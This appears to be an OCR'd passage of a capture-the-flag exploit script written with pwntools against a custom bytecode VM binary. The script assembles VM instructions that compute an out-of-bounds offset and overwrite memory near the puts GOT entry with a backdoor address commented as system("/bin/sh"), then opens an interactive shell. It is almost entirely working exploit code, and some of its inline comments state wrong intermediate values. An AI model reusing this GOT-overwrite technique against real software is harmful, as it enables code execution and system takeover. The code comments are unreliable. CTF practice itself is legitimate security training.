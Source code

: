```python
    io.sendline(str(code))

backdoor=0x400877 # system("/bin/sh\x00")

io.sendlineafter("set your IP:","0")
io.sendlineafter("set your SP:","1")
io.sendlineafter("execve:",str(27))

puts_got=0x602018
offset=0x6020e0-0x602018
reg=0x6420E0
memory=0x6020E0
###


###

### Code 
Code(0x10,0,0,0x8)  # reg[0]=0x8
Code(0x10,1,0,0x4)  # reg[1]=0x4
Code(0x40,2,1,0)    # reg[2]=0xc
Code(0x80,3,2,1)    # reg[3]=reg[1]<<reg[1]  : reg[3]=0xc0
Code(0x10,4,0,0x6)  # reg[4]=0x6
Code(0x40,4,4,0)    # reg[4]=0xe
Code(0x40,3,3,4)    # reg[1]=reg[1]+reg[3]   : reg[3]=0xce      
Code(0x10,5,0,0x7)  # reg[5]=0x7
Code(0x40,5,5,0)    # reg[5]=0xf
Code(0x80,6,5,1)    # reg[6]=reg[5]<<reg[1]  : reg[6]=0xf0
Code(0x40,6,6,5)    # reg[6]=reg[5]+reg[6]   : reg[6]=0xff 
Code(0x80,5,6,0)    # reg[5]=reg[6]<<reg[0]  : reg[5]=0xff00
Code(0x40,5,5,6)    # reg[5]=reg[5]+reg[6]   : reg[5]=0xffff
Code(0x80,5,5,0)    # reg[5]=reg[5]<<reg[0]  : reg[5]=0xffff00
Code(0x40,5,5,6)    # reg[5]=reg[5]+reg[6]   : reg[5]=0xffffff
Code(0x80,5,5,0)    # reg[5]=reg[5]<<reg[0]  : reg[5]=0xffffff00
Code(0x40,5,5,3)    # reg[5]=reg[5]+reg[3]   : reg[5]=0xffffffce

#0x400877
Code(0x10,4,0,0x7)  # reg[4]=0x7
Code(0x80,6,4,1)    # reg[6]=reg[4]<<reg[1]  : reg[6]=0x70
Code(0x40,6,6,4)    # reg[6]=reg[6]+reg[4]   : reg[6]=0x770000
Code(0x80,1,1,1)    # reg[1]=reg[1]<<reg[1]  : reg[1]=0x40
Code(0x80,1,1,0)    # reg[1]=reg[1]<<reg[0]  : reg[1]=0x4000
Code(0x80,1,1,0)    # reg[1]=reg[1]<<reg[0]  : reg[1]=0x400000
Code(0x80,0,0,0)    # reg[0]=reg[0]<<reg[0]  : reg[0]=0x800
Code(0x40,0,0,6)    # reg[0]=reg[0]+reg[6]   : reg[0]=0x877
Code(0x40,1,1,0)    # reg[1]=reg[1]+reg[0]   : reg[1]=0x4000877
Code(0x90,5,1,0)    # mem[reg[5]]=reg[1]     : mem[-50]=0x4000877
#gdb.attach(io)
io.interactive()
```
